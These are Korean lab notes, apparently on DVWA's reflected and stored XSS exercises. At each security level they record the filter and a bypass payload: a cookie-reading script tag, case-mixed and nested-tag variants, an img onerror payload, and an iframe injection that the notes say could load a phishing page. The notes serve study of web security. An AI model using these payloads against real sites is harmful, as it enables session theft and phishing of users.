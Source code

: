 ![[Pasted image 20241008150628.png]]
- 1회성(반사형) 스크립트
![[Pasted image 20241008150827.png]]
- 입력 받은 문자열을 새로운 문자열 생성

```
<script>alert(document.cookie)</script>
```
![[Pasted image 20241008151019.png]]
![[Pasted image 20241008151154.png]]
- 받은 입력을 name 에 저장하고 비엇는지만 검사하고 비지 않았다면 출력

medium
![[Pasted image 20241008151337.png]]
![[Pasted image 20241008151403.png]]
- `<script>`를 공백으로 바꿔줌으로 방어
- 소문자 스크립트 또는 변형된 스트립트는 적용된다.
```
<sCript>alert(document.cookie)</script>
```
![[Pasted image 20241008151617.png]]
```
<sc<script>ript>alert(document.cookie)</script>
```

hight
![[Pasted image 20241008151739.png]]
![[Pasted image 20241008151755.png]]
- 단일 문자는 전부 공백(대소문자 관계없이)으로 preg_replace()로 처리하도록 되어있다.

`<img src=x onerror=prompt()>`
![[Pasted image 20241008152641.png]]

impossible
![[Pasted image 20241008152720.png]]
- htmlspecialchars(): html에 사용되는 모든 특수 문자 삭제
![[Pasted image 20241008152815.png]]


![[Pasted image 20241008150742.png]]
- 다용성(저장형) 스크립트

low
![[Pasted image 20241008153018.png]]
![[Pasted image 20241008153218.png]]
- 개발자 도구로 입력 가능한 텍스트 수를 늘린다.
![[Pasted image 20241008153314.png]]
![[Pasted image 20241008153419.png]]
![[Pasted image 20241008153324.png]]
![[Pasted image 20241008153404.png]]
- 두 필드 모두 xss 취약점이 있다
- 이전에 저장한 스크립트가 먼저 실행된다.
![[Pasted image 20241008153659.png]]

medium
![[Pasted image 20241008154036.png]]
![[Pasted image 20241008153953.png]]![[Pasted image 20241008154102.png]]
- message는 htmlspecialchars()를 통해 특수문자를 일반 문자로 변형했다.
- name필드는 여전히 대소문자/변형외곡/에러 유도에 취약함

high
![[Pasted image 20241008154844.png]]


# iframe?
```
<body topmargin=0 leftmargin=0 onload="document.body.innerHTML='<iframe width=100% height=800 src=http://192.168.56.102/></iframe>',">
```
본문을 로드할 때 상단, 좌측에 배치해서 로드
로드할 때 바디를 HTML을 로드한다.
- 공격자가 만든 피싱 사이트를 연결할 수 있다.
